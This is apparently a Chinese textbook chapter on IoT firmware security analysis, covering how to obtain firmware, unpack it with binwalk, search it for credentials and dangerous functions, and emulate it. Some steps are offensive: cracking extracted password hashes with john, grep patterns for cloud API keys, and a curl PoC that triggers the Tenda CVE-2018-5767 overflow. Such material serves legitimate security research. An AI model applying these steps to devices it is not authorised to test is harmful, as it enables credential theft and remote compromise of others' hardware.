


## 22.1 IoT设备固件分析技术

固件分析是IoT安全研究中最核心、最基础的能力。与传统的Web应用安全不同，IoT设备的安全性深深植根于其固件之中——硬编码的管理员凭据、隐藏的后门调试接口、未公开的API端点、存在缓冲区溢出的CGI程序，所有这些都沉睡在固件的二进制镜像里，等待被发掘。

从统计上看，超过60%的IoT高危漏洞（CVSS ≥ 9.0）是通过固件分析发现的，而非网络扫描或Web渗透测试。原因很简单：Web界面只是冰山一角，而固件才是整个冰山。

### 22.1.1 固件分析的本质与价值

#### 什么是固件？

固件（Firmware）是介于硬件与操作系统之间的软件层，存储在Flash、EEPROM等非易失性存储器中。一个典型IoT设备的固件包含以下层次：



| 层级 | 作用 | 安全关注点 | 大小范围 |
|------|------|-----------|---------|
| Bootloader | 硬件初始化、引导内核 | 可通过UART中断进入Uboot命令行 | 256KB-2MB |
| Linux内核 | 驱动、网络栈、文件系统 | CVE版本、内核模块安全 | 1-10MB |
| 根文件系统 | 程序和库文件 | 过时软件包、已知漏洞 | 4-64MB |
| 应用程序 | Web/CGI/Cloud | 命令注入、缓冲区溢出 | 1-20MB |
| 配置分区 | 用户设置、网络信息 | 明文WiFi密码、云凭据 | 64KB-1MB |

#### 固件分析能发现什么？

通过系统的固件分析，安全研究员可以揭示以下五类关键信息：

**1. 硬编码凭据与密钥** - 最容易被发现也最危险的问题。厂商为了方便测试或远程维护，经常在固件中硬编码默认密码、后门账户、API密钥、SSL私钥。例如某知名厂商路由器的固件被发现硬编码了root账户的SSH密钥，所有该型号设备共享同一个私钥。

**2. 隐藏的调试接口与后门** - 固件中可能包含未在Web界面展示的调试页面、telnet/SSH服务、串口控制台。这些接口有时候被“隐藏”而不是被“删除”——通过简单的目录遍历或特定URL即可访问。

**3. 命令注入与代码执行** - 固件中的CGI程序或守护进程常常直接将用户输入传递给`system()`、`popen()`、`exec()`等函数，造成远程命令执行。

**4. 缓冲区溢出漏洞** - C/C++编写的网络服务中大量使用不安全的字符串函数（`strcpy`、`sprintf`、`gets`），可以在Ghidra中快速定位。

**5. 自定义协议与私有算法** - 很多IoT厂商使用自定义通信协议，通过在固件中逆向协议处理代码，可以发现认证绕过、重放攻击等高级漏洞。

#### 固件分析的四阶段模型

系统化的固件分析遵循一个四阶段递进模型：



### 22.1.2 固件获取：六种途径详解

固件分析的第一步是获取目标设备的固件镜像。按照从易到难的顺序，主要有六种途径。

#### 途径一：厂商官网直接下载

这是最简单、最合法的方式。绝大多数厂商（TP-Link、D-Link、Netgear、小米、华为）在官网提供固件下载：

```bash
# 示例：下载特定型号的固件
wget -O firmware.bin "http://www.tp-link.com/res/download/firmware/TL-WR841N_v11_20191231.bin"

# 使用curl配合爬虫批量扫描固件下载页面
curl -s "http://www.tp-link.com/support/download/TL-WR841N/" | \
  grep -oP 'href="[^"]+\.bin"' | head -5

# 枚举固件版本（常见命名模式）
# vendor_model_v{version}.bin
# vendor_model_{date}.bin  
# FW_{model}_V{version}_beta.bin
```

**注意事项：**
- 官网固件可能被厂商清理过（去除了调试符号），但大部分情况下与设备运行的固件一致
- 某些厂商要求注册账号才能下载，可使用临时邮箱处理
- 部分厂商（如小米）通过OTA推送而非公开下载，此时需要其他途径

#### 途径二：Web管理界面抓取

如果已经可以访问设备的Web管理界面（或通过默认凭据登录），可以尝试从Web界面直接获取固件：

```bash
# 方法A：浏览器开发者工具监控
# 1. 打开Chrome DevTools → Network标签
# 2. 在设备管理页面找到"固件升级"功能
# 3. 点击"检查更新"，观察网络请求中的固件下载URL

# 方法B：通过Web API直接下载（需已登录）
curl -o firmware.bin -b "session=admin_session_token" \
  "http://192.168.1.1/cgi-bin/download_firmware.cgi"

# 方法C：固件升级页面的隐藏链接
curl -o firmware.bin "http://192.168.1.1/firmware/upgrade.bin"
curl -o firmware.bin "http://192.168.1.1/upgrade/fw.bin"
curl -o firmware.bin "http://192.168.1.1/fw/current.bin"

# 方法D：备份文件泄露（配置文件常包含固件版本信息）
curl -o config.cfg "http://192.168.1.1/backup.cfg"
strings config.cfg | grep -i "firmware\|version\|build"
```

#### 途径三：OTA更新包拦截

越来越多的IoT设备通过手机APP进行OTA（Over-The-Air）升级。拦截OTA流量是获取最新固件的有效手段：

```bash
# 方法A：mitmproxy透明代理模式
# 1. 启动mitmproxy
mitmproxy -p 8080 --mode transparent

# 2. 在手机上安装mitmproxy CA证书
# 3. 将手机代理指向mitmproxy服务器
# 4. 在APP中触发"检查更新"
# 5. 在mitmproxy中观察固件下载请求

# 方法B：使用Burp Suite拦截
# 1. 配置Burp Suite作为上游代理（Proxy → Options → Proxy Listeners）
# 2. 手机WiFi设置HTTP代理指向电脑IP:8080
# 3. 安装Burp CA证书
# 4. 触发固件升级，捕获包含固件URL的请求

# 方法C：tcpdump全局抓包后分析
tcpdump -i wlan0 -s 0 -w ota_traffic.pcap -c 10000
# 之后用Wireshark分析：
# 过滤器: http contains "firmware" or http contains ".bin"
# 或: data contains "\\x7fELF"（ELF文件头）或 data contains "hsqs"（SquashFS标记）
```

**常见OTA加密/混淆手段：** 部分厂商会对OTA通信进行额外保护，如自定义HTTP头部校验（X-Signature）、时间戳验证、设备唯一ID绑定。需要在固件分析过程中反向OTA升级程序的逻辑。

#### 途径四：UART调试接口提取

UART（Universal Asynchronous Receiver/Transmitter）是嵌入式设备上最常见的调试接口，通常以4个引脚（TX、RX、GND、VCC）的形式出现在PCB上。

**硬件准备清单：**

| 工具 | 推荐型号 | 参考价格 | 用途 |
|------|---------|---------|------|
| USB转TTL适配器 | CP2102 / FT232RL / CH340G | ¥10-40 | 串口通信 |
| 杜邦线（公母各半） | 2.54mm间距 | ¥3-5 | 连接引脚 |
| 万用表 | 任何数字万用表 | ¥30-100 | 识别引脚 |
| 逻辑分析仪 | Saleae Logic 8 / 国产替代 | ¥100-500 | 分析UART波特率 |
| 排针 | 2.54mm弯针/直针 | ¥2-5 | 焊接临时接口 |

**引脚识别方法（关键技能）：**

UART的四根引脚在PCB上通常成对出现（2×2排列），识别方法如下：

```bash
# 使用万用表测量（电阻档 → 通断档/电压档）
# 1. GND（地）：万用表蜂鸣档，一头接任意裸露地（如USB外壳、屏蔽罩），
#    另一头依次触碰候选引脚，通路的即为GND
# 2. VCC（电源）：上电后电压档测量，3.3V或5V
# 3. TX（发送）：电压档测量，对GND约3.3V，有脉冲信号（数据发送时会波动）
# 4. RX（接收）：电压档测量，对GND约3.3V，空闲时为高电平

# 经验判断法（不上电时）：
# - 四根引脚中，通常最靠近PCB边缘的是GND
# - 成对排列时，内圈为TX/RX，外圈为GND/VCC（典型布局）
# - 参考同一厂商其他设备的已知引脚定义
```

**波特率探测与连接：**

```bash
# 方法A：逻辑分析仪自动探测
# 将逻辑分析仪的通道0连接到TX引脚
# 使用Saleae Logic软件或PulseView，设置采样率≧4MHz
# 捕获一段数据后使用UART解码器，软件会自动识别波特率

# 方法B：手动尝试常见波特率
# 常见IoT设备波特率：115200 > 57600 > 38400 > 19200 > 9600
for rate in 115200 57600 38400 19200 9600; do
    echo "Trying baud $rate..."
    timeout 2 screen /dev/ttyUSB0 $rate 2>/dev/null && break
done

# 方法C：使用baudrate.py脚本自动探测
git clone https://github.com/devttys0/baudrate.git
python baudrate.py /dev/ttyUSB0

# 连接并交互（成功后可看到引导日志或登录提示符）
screen /dev/ttyUSB0 115200  # Ctrl+A → K 断开连接
# 或使用minicom
minicom -D /dev/ttyUSB0 -b 115200 -o
```

**常见UART连接问题排查：**

| 现象 | 可能原因 | 解决方案 |
|------|---------|---------|
| 无输出 | TX/RX接反 | 交换TX和RX |
| 乱码 | 波特率不正确 | 逐一测试常见波特率 |
| 无任何反应 | 接口未正确焊接或引脚定义错误 | 重新确认引脚功能 |
| 烧毁适配器 | VCC供电冲突 | 不连接VCC（仅连TX/RX/GND） |

> **安全提示：** 对于大部分设备，**不要连接VCC引脚**。USB转TTL适配器会从USB取电为设备供电，如果设备已经由自己的电源供电，两个电源会冲突甚至烧毁适配器。只连接GND、TX、RX三根线即可。

#### 途径五：SPI/I2C闪存芯片直接读取

当所有软件方法都失败时，直接读取闪存芯片是最彻底的固件获取方式。

```bash
# 硬件准备
# - SPI编程器：CH341A（最便宜，¥15-30）、Segger J-Link、Bus Pirate
# - SOP8测试夹子（免焊接夹住SPI Flash芯片）
# - 如果芯片是SOIC-8封装，推荐使用SOP8夹子而非热风枪拆焊

# 使用flashrom读取SPI Flash
# 步骤1：确定芯片型号（看芯片上印刷的文字，如W25Q128FV）
# 步骤2：确定芯片连接到编程器的引脚（CS→CS、MISO→DO、MOSI→DI、CLK→CLK、VCC→3.3V、GND→GND）
# 步骤3：读取固件

# 自动识别芯片并读取
flashrom -p ch341a_spi -r firmware_dump.bin

# 指定芯片型号（跳过识别，更稳定）
flashrom -p ch341a_spi -c "W25Q128FV" -r firmware_dump.bin

# 读取后验证（比较两次读取结果确保完整）
flashrom -p ch341a_spi -r verify_dump.bin
md5sum firmware_dump.bin verify_dump.bin  # 应一致

# 使用Bus Pirate
flashrom -p buspirate_spi:dev=/dev/ttyUSB0 -r firmware_dump.bin

# 如果需要擦除并重写
# flashrom -p ch341a_spi -w patched_firmware.bin  # 谨慎！
```

**常见SPI Flash芯片型号速查：**

| 容量 | 型号 | 常见用途 | 读取时间 |
|------|------|---------|---------|
| 1MB (8Mbit) | W25Q80BV / MX25L8006E | 低端路由器Bootloader | ~30秒 |
| 2MB (16Mbit) | W25Q16BV / GD25Q16 | 低端路由器固件 | ~60秒 |
| 4MB (32Mbit) | W25Q32BV / MX25L3206E | 入门级路由器 | ~2分钟 |
| 8MB (64Mbit) | W25Q64FV / MX25L6406E | 中端路由器 | ~4分钟 |
| 16MB (128Mbit) | W25Q128FV / GD25Q128 | 主流路由器/摄像头 | ~8分钟 |
| 32MB (256Mbit) | W25Q256FV / MX25L25635E | 高端设备 | ~16分钟 |

#### 途径六：JTAG/SWD调试接口

对于SoC级别的调试，JTAG提供了最底层的控制能力——可以暂停CPU、读写内存、设置断点。

```bash
# JTAG引脚识别
# JTAG标准4线：TMS、TCK、TDI、TDO（外加TRST可选的复位引脚）
# SWD（ARM设备的JTAG替代）2线：SWDIO、SWCLK

# 使用JTAGulator自动识别JTAG引脚
# JTAGulator是一款自动识别JTAG/SWD引脚排序的专用硬件
# 连接JTAGulator到目标设备的目标引脚组
# 运行自动识别

# 使用OpenOCD连接（以STM32为例）
# openocd.cfg配置文件
echo "source [find interface/ftdi/jtag-lock-pick_tiny_2.cfg]" > openocd.cfg
echo "source [find target/stm32f4x.cfg]" >> openocd.cfg
openocd -f openocd.cfg

# 连接成功后，通过telnet访问调试接口
telnet localhost 4444
# halt           # 暂停CPU
# flash read_bank 0 firmware_dump.bin 0x08000000 0x00100000  # 读取Flash
# dump_image firmware.bin 0x08000000 0x100000
```

### 22.1.3 固件解包：从二进制到文件系统

获取固件镜像后，下一步是将其解包为可读的文件系统结构。固件镜像通常是多种文件格式的拼接体，包含引导头、压缩载荷、文件系统等。

#### Binwalk：固件分析的瑞士军刀

Binwalk是目前使用最广泛的固件分析工具。它通过扫描文件中的已知文件头签名（Magic Bytes）来识别固件的各个组成部分。

```bash
# 安装
# 方法A：apt（版本较旧）
sudo apt-get install binwalk

# 方法B：pip（推荐，最新版本）
sudo pip install binwalk

# 方法C：最新版从GitHub安装（支持更多文件系统）
git clone https://github.com/devttys0/binwalk.git
cd binwalk && sudo python setup.py install

# 扫描固件结构
binwalk firmware.bin
```

**典型输出解读：**

```bash
$ binwalk firmware.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x00000000      uImage header, header size: 64 bytes...
114688        0x001C0000      LZMA compressed data, properties: 0x5D...
2097152       0x00200000      SquashFS filesystem, little-endian, version 4.0
8388608       0x00800000      JFFS2 filesystem, little endian
```

这个输出告诉我们固件由四部分组成：
1. **0x00000000** — uImage头部（U-Boot引导的内核镜像）
2. **0x001C0000** — LZMA压缩数据（实际是压缩的内核）
3. **0x00200000** — SquashFS文件系统（只读根文件系统，版本4.0，小端序）
4. **0x00800000** — JFFS2文件系统（可写配置分区）

```bash
# 提取所有检测到的内容到_extracted目录
binwalk -e firmware.bin

# 递归提取（自动解压找到的压缩包）
binwalk -eM firmware.bin

# 指定提取目录
binwalk -e firmware.bin --directory=./extracted

# 只提取特定偏移量的内容
binwalk -D 'squashfs:squashfs-root' firmware.bin

# 深度扫描（更慢但更彻底）
binwalk -Me firmware.bin

# 手动指定签名文件扫描
binwalk -R '\\x89PNG\\x0D\\x0A\\x1A\\x0A' firmware.bin  # 找PNG图片
binwalk -R '\\x50\\x4B' firmware.bin                     # 找ZIP文件

# 熵分析（检测加密区域——高熵值区域可能已加密）
binwalk -E firmware.bin
```

**熵图解读：** Binwalk的熵分析（`-E`参数）生成一个ASCII熵图，显示固件各区域的随机程度：

```yaml
Entropy: file_size=16MB
0.0     0.2     0.4     0.6     0.8     1.0
■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■  [0x000000 - 0x100000]  ← 低熵（头文件/全0填充）
■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■  [0x100000 - 0x200000]  ← 中熵（压缩内核）
■■■■■■■■■■■■■■■■■■■■■■████████████████████████  [0x200000 - 0xA00000]  ← 中高熵（SquashFS）
████████████████████████████████████████████████  [0xA00000 - 0x1000000] ← 高熵（可能是加密区或随机填充）
```

- 低熵（<0.5）：明文数据、全0/全1填充、文件头
- 中熵（0.5-0.8）：压缩数据（LZMA/gzip等）、有结构数据
- 高熵（>0.8）：加密数据或随机数

如果固件的大部分区域呈现均匀的高熵（>0.95），说明固件很可能被加密了，需要先解密才能进一步分析。

#### 手动解包特定文件系统

当Binwalk自动提取失败时，需要手动识别和解包文件系统：

```bash
# 检查文件系统类型（使用strings识别签名）
dd if=firmware.bin bs=1 skip=$OFFSET count=100 | strings | head
# SquashFS签名: hsqs
# JFFS2签名: \x19\x85
# CramFS签名: CramFS
# YAFFS签名: YAFFS
# UBIFS签名: UBI#

# 使用dd截取特定偏移量的内容
# 假设Binwalk显示SquashFS起始于0x200000
dd if=firmware.bin of=rootfs.squashfs bs=1 skip=$((0x200000))
# 或者指定精确大小
dd if=firmware.bin of=rootfs.squashfs bs=1 skip=$((0x200000)) count=$((0x600000))

# 解包SquashFS（最常见）
unsquashfs -d ./squashfs-root rootfs.squashfs
# 如果报错"Filesystem uses XZ compression, which is not supported"
# 需要安装squashfs-tools的新版本或custom squashfs工具

# 解包CramFS
cramfsck -x ./extracted ./rootfs.cramfs

# 解包JFFS2（需要内核模块支持）
modprobe mtdblock
modprobe jffs2
modprobe mtdram total_size=65536 erase_size=256
dd if=rootfs.jffs2 of=/dev/mtdblock0
mount -t jffs2 /dev/mtdblock0 /mnt/jffs2/

# 解包UBIFS（常见于较新设备）
# 需要确定LEB大小和min I/O单元大小
ubireader_extract_images -l rootfs.ubi
```

#### 企业级固件分析框架：FACT

FACT（Firmware Analysis and Comparison Tool）是目前最强大的自动化固件分析框架，它整合了Binwalk、熵分析、字符串提取、CVE匹配、硬编码凭据检测等功能：

```bash
# 使用Docker部署FACT
git clone https://github.com/fkie-cad/FACT_core.git
cd FACT_core
docker-compose up -d

# 访问 http://localhost:5000 上传固件
# 自动分析完成后会生成报告，包含：
# - 软件版本及CVE漏洞映射
# - 硬编码凭据
# - 文件系统结构和内容
# - 加密算法识别
# - 已知的恶意IOC
```

### 22.1.4 固件静态分析实战

文件系统提取出来后，真正的安全分析才正式开始。按照以下优先级系统地进行分析。

#### 阶段一：自动化快速扫描

```bash
# 使用Firmwalker（自动化固件分析脚本）
git clone https://github.com/craigz28/firmwalker.git
cd firmwalker
chmod +x firmwalker.sh

# 对提取的文件系统进行全面扫描
./firmwalker.sh ./squashfs-root/

# 输出包含：
# - /etc/shadow 和 /etc/passwd 中的用户
# - SSL证书和密钥
# - 配置文件（*.conf, *.ini, *.cfg）
# - Shell脚本
# - Web文件（PHP, ASP, JS）
# - 二进制文件中的interesting strings
# - 默认密码
```

**Firmwalker输出示例：**

```text
***Search for password files***
./squashfs-root/etc/shadow — FOUND
./squashfs-root/etc/passwd — FOUND

***Search for SSL related files***
./squashfs-root/etc/ssl/certs/ca-certificates.crt
./squashfs-root/etc/ssl/private/device-key.pem — !!! PRIVATE KEY FOUND

***Search for configuration files***
./squashfs-root/etc/config/dropbear — SSH配置
./squashfs-root/etc/config/wireless — WiFi配置（可能含密码）
./squashfs-root/usr/share/udhcpd.conf — DHCP服务器配置

***Search for shell scripts***
./squashfs-root/etc/init.d/rcS — 启动脚本
./squashfs-root/usr/sbin/post-initial-setup.sh — 首次设置脚本
```

#### 阶段二：硬编码凭据深度挖掘

硬编码凭据是最普遍的IoT安全漏洞之一。据OWASP IoT Top 10统计，"使用硬编码凭据"是IoT设备最常见的安全问题第一名。

```bash
# 系统账户与密码
cat ./squashfs-root/etc/shadow
cat ./squashfs-root/etc/passwd
# 注意：嵌入式系统中shadow文件通常可直接读

# 使用john破解密码哈希
# 将shadow文件中的哈希提取到hash.txt
# hash格式示例：root:$1$abc123$xxxxxxxxxxxxx:0:0:...
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show hash.txt  # 查看破解结果

# 深度搜索密码模式（不限于标准位置）
find ./squashfs-root/ -type f -exec grep -l "password\\|passwd\\|pass=" {} \\;
find ./squashfs-root/ -type f -exec grep -l "123456\\|admin123\\|letmein" {} \\;

# 搜索二进制文件中的硬编码密码（使用strings+正则）
find ./squashfs-root/usr/sbin/ -type f -exec strings {} \\; | \
  grep -E "^[a-zA-Z0-9]{8,16}$" | sort -u | head -50
# 注意：这会输出大量候选，需人工验证

# 搜索API密钥和Token
grep -rn "sk-[a-zA-Z0-9]{20,}" ./squashfs-root/ 2>/dev/null  # OpenAI格式
grep -rn "AKIA[0-9A-Z]{16}" ./squashfs-root/ 2>/dev/null     # AWS Key格式
grep -rn "ghp_[a-zA-Z0-9]{36}" ./squashfs-root/ 2>/dev/null  # GitHub Token
grep -rn "cloud_api_key\\|cloud_secret\\|aws_access" ./squashfs-root/ 2>/dev/null
```

#### 阶段三：敏感配置与信息泄露

```bash
# WiFi密码（常见存储位置）
cat ./squashfs-root/etc/config/wireless 2>/dev/null
cat ./squashfs-root/etc/Wireless/RT2860AP.dat 2>/dev/null
cat ./squashfs-root/tmp/wifi_passwd 2>/dev/null

# 云平台凭据
grep -rn "device_secret\\|device_id\\|product_key" \
  ./squashfs-root/ --include="*.conf" --include="*.json" --include="*.bin"

# 数据库凭据
grep -rn "mysql://\\|sqlite://\\|mongodb://" ./squashfs-root/

# SSL/TLS证书私钥
find ./squashfs-root/ -name "*.pem" -o -name "*.key" -o -name "*.p12" | \
  while read f; do
    if openssl rsa -in "$f" -check -noout 2>/dev/null; then
      echo "[!] PRIVATE KEY FOUND: $f"
      openssl rsa -in "$f" -text -noout 2>/dev/null | head -5
    fi
  done
```

#### 阶段四：二进制层面的漏洞分析

这是最需要逆向工程功力的阶段，也是发现高危漏洞（远程代码执行）的关键。

**搜索危险函数：**

```bash
# 在所有ELF二进制中搜索危险函数调用
# 方法1：使用grep结合strings
find ./squashfs-root/ -type f -executable -exec file {} \\; | \
  grep ELF | cut -d: -f1 | while read binary; do
    strings "$binary" | grep -E "strcpy|strcat|sprintf|system|popen|exec" && \
      echo "  -> $binary"
  done

# 方法2：使用objdump反汇编特定函数
objdump -d ./squashfs-root/usr/sbin/httpd | grep -E "bl .*strcpy|bl .*sprintf"
# ARM平台注意指令是 BL strcpy（调用）
```

**使用Ghidra进行深度逆向：**

```bash
# 安装Ghidra（需要JDK 17+）
# 下载地址：https://ghidra-sre.org/
wget https://github.com/NationalSecurityAgency/ghidra/releases/download/.../ghidra.zip
unzip ghidra.zip
./ghidra_*/ghidraRun

# Ghidra分析流程
# 1. File → New Project → Non-Shared Project
# 2. 将目标ELF文件拖入项目
# 3. 双击打开 → 自动分析（等待1-5分钟）
# 4. 关键操作：
#    - Search → Program Text：搜索"strcpy"、"sprintf"、"system"
#    - Window → Symbol Table：查看所有导入的函数
#    - Window → Script Manager：运行预置分析脚本
#    - Search → For Strings：快速浏览所有硬编码字符串
```

**Ghidra中定位缓冲区溢出的三步法：**

```text
第一步：找到输入入口
  在HTTP服务器中，recv()或read()是用户输入的入口
  在CGI程序中，getenv("QUERY_STRING")或fread(stdin)是入口

第二步：追踪数据流
  从输入入口到危险函数之间的数据传递路径
  是否存在长度检查？是否存在过滤？

第三步：构造PoC
  根据覆写的偏移量和安全机制，构造利用Payload
```

**危险函数速查表：**

| 函数 | 漏洞类型 | 危害 | 检测方法 | 安全替代 |
|------|---------|------|---------|---------|
| `strcpy(dst, src)` | 缓冲区溢出 | 严重（远程代码执行） | strings+objdump | `strncpy` / `snprintf` |
| `strcat(dst, src)` | 缓冲区溢出 | 严重 | strings+objdump | `strncat` / `snprintf` |
| `sprintf(buf, fmt, arg)` | 缓冲区溢出 | 严重 | strings+objdump | `snprintf` / `asprintf` |
| `gets(buf)` | 缓冲区溢出 | 严重 | strings | `fgets(buf, size, stdin)` |
| `system(cmd)` | 命令注入 | 严重（远程命令执行） | strings / Ghidra交叉引用 | `execve` + 参数白名单 |
| `popen(cmd, mode)` | 命令注入 | 严重 | strings | 使用库函数替代外部命令 |
| `printf(user_input)` | 格式化字符串 | 高（内存泄露/RCE） | strings/Ghidra | `printf("%s", user_input)` |
| `sscanf(buf, fmt, ptr)` | 内存损坏 | 中-高 | strings | 使用格式限定符+长度检查 |

**真实案例——CVE-2018-5767（Tenda路由器栈溢出）：**

Tenda AC15路由器Web管理界面的`fromSmtp`函数在处理`enmail`参数时，使用`sprintf`将用户输入拼接到栈缓冲区中，未做任何长度检查：

```c
// 逆向出的漏洞代码伪码
void fromSmtp(char *enmail) {
    char buf[100];         // 栈缓冲区
    sprintf(buf, enmail);  // 漏洞行：未指定格式，enmail超过100字节即溢出
    // ... 后续处理
}
```

通过发送超长POST请求即可触发缓冲区溢出，覆盖返回地址实现远程代码执行：

```bash
# PoC：触发崩溃
curl -d "enmail=$(python -c 'print("A"*200)')" http://192.168.1.1/goform/smtp
```

#### 阶段五：启动脚本与持久化机制分析

```bash
# 查看系统启动脚本——了解设备运行了哪些服务
cat ./squashfs-root/etc/inittab
cat ./squashfs-root/etc/init.d/rcS
ls -la ./squashfs-root/etc/init.d/

# 检查rcS中的可疑命令
grep -n "telnetd\|shell\|debug\|backdoor\|test" ./squashfs-root/etc/init.d/rcS

# 检查cron任务——可能存在定时执行的恶意脚本或后门
cat ./squashfs-root/etc/crontab 2>/dev/null
cat ./squashfs-root/var/spool/cron/crontabs/* 2>/dev/null

# 检查启动脚本中的环境变量
grep -rn "export " ./squashfs-root/etc/init.d/
```

### 22.1.5 固件动态分析：让固件"跑起来"

静态分析只能看到代码，看不到行为。通过模拟运行固件，可以发现静态分析无法触及的运行时漏洞——如竞争条件、信息泄露、逻辑问题。

#### QEMU用户态模拟

最简单的动态分析方式：用QEMU直接运行固件中的单个二进制程序。

```bash
# 安装QEMU用户态模拟器
sudo apt-get install qemu-user-static

# 复制QEMU模拟器到目标文件系统
cp /usr/bin/qemu-arm-static ./squashfs-root/usr/bin/
# 对于MIPS设备使用qemu-mips-static
# 对于ARM设备使用qemu-arm-static
# 对于MIPSel设备使用qemu-mipsel-static

# chroot到文件系统并运行程序
sudo chroot ./squashfs-root/ /usr/bin/qemu-arm-static /usr/sbin/httpd
# 注意：可能需要挂载/proc和/sys
sudo mount -t proc /proc ./squashfs-root/proc/
sudo mount -t sysfs /sys ./squashfs-root/sys/
sudo chroot ./squashfs-root/ qemu-arm-static /usr/sbin/httpd
```

**用户态模拟的局限性：**
- 不支持硬件外设（GPIO、SPI、I2C定时器等）
- 某些程序依赖特定硬件寄存器（watchdog、RTC等）
- 内核模块无法加载
- 部分ioctl调用会失败

#### QEMU系统态模拟 + Firmadyne

Firmadyne是专门用于自动化IoT固件系统级模拟的工具，它使用定制的Linux内核和QEMU系统模拟来运行整个固件：

```bash
# 使用Docker安装Firmadyne
git clone --recursive https://github.com/firmadyne/firmadyne.git
cd firmadyne
./download.sh  # 下载预编译的内核
docker build -t firmadyne .

# 安装Firmadyne的依赖
sudo apt-get install -y python3-pip postgresql
pip3 install -r requirements.txt

# 创建Firmadyne数据库
sudo -u postgres createuser firmadyne
sudo -u postgres createdb -O firmadyne firmware
sudo -u postgres psql -d firmware -c "ALTER USER firmadyne WITH PASSWORD 'firmadyne';"

# 使用脚本模拟固件
./script.py extract firmware.bin firmware_image_id
./script.py infer network firmware_image_id     # 推断网络配置
./script.py run firmware_image_id               # 启动模拟

# 模拟运行后，可以通过网络访问设备的Web服务
curl http://192.168.0.1:80/  # 设备Web界面
nmap -sV 192.168.0.1         # 设备开放端口扫描
```

**Firmadyne常见问题及解决方案：**

| 问题 | 原因 | 解决方案 |
|------|------|---------|
| 内核Panic | 内核版本与设备不匹配 | 尝试Firmadyne提供的不同内核 |
| 网络不通 | 设备网络配置推断错误 | 手动修改Firmadyne的网络配置 |
| 服务启动失败 | 缺少硬件依赖 | 使用strace追踪系统调用，模拟缺失的设备文件 |
| Web界面加载不全 | JavaScript/图片资源路径问题 | 检查Web服务器的根目录配置正确 |

#### 使用strace追踪运行行为

```bash
# 在用户态模拟中追踪系统调用
chroot ./squashfs-root/ qemu-arm-static /usr/bin/strace \
  -f -e trace=network,file,process \
  /usr/sbin/httpd 2>&1 | tee strace_httpd.log

# 关注的重点系统调用
# open()  — 读取了哪些配置文件
# connect() — 连接了哪些远程服务器
# execve() — 执行了哪些外部命令（命令注入验证）
# ioctl()  — 操作了哪些硬件设备
# mmap()   — 内存映射（检查ASLR/NX状态）
```

### 22.1.6 工具对比与选型指南

#### 固件提取工具对比

| 工具 | 主要功能 | 适用场景 | 难度 | 价格 |
|------|---------|---------|------|------|
| Binwalk | 固件扫描与解包 | 快速分析固件结构 | ★☆☆ | 免费 |
| FACT | 全自动固件分析 | 企业级批量分析 | ★★☆ | 免费（开源） |
| Firmwalker | 自动化安全扫描 | 提取后快速安全检查 | ★☆☆ | 免费 |
| Ghidra | 二进制逆向分析 | 深度漏洞挖掘 | ★★★ | 免费 |
| FMK (Firmware-mod-kit) | 固件解包与重新打包 | 修改固件后再打包 | ★★☆ | 免费 |
| Firmadyne | 固件系统级模拟 | 运行时行为分析 | ★★★ | 免费 |
| flashrom | SPI Flash读写 | 直接读取flash芯片 | ★☆☆ | 免费 |
| UART/SPI编程器 | 硬件接口通信 | 硬件固件提取 | ★★☆ | ¥15-500 |

#### 推荐学习路线

```text
入门阶段（第1-2周）：
├─ 掌握：Binwalk + Firmwalker + strings + grep
├─ 技能：固件解包、文件系统浏览、简单字符串搜索
└─ 练习：从官网下载路由器固件，提取文件系统

进阶阶段（第3-4周）：
├─ 掌握：Ghidra + Firmadyne + UART连接
├─ 技能：逆向简单二进制、符号执行、硬件调试接口访问
└─ 练习：尝试模拟运行路由器固件

精通阶段（第5-8周）：
